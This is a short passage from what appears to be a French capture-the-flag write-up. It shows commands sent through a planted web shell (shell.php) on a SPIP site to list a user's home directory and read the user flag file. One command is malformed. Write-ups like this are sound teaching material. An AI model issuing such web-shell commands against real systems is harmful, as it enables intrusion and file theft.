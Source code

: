 J'ai commencé par analyser les fichiers présents dans le répertoire utilisateur de la machine cible :
```
http://<IP-cible>/spip/shell.php?0=ls -la ../..
```
![found%20user%20think.png](Screens/found%20user%20think.png)
![found%20user%20flag%201.png](Screens/found%20user%20flag%201.png)

Et, on peut voir que l'utilisateur sur la machine est `think` et qu'il y a un fichier `user.txt` :
```
http://<IP-cible>/spip/shell.php?0=ls -la ../../cat user.txt
```
![found%20user%20flag%202.png](Screens/found%20user%20flag%202.png)
**Voici le flag utilisateur !**
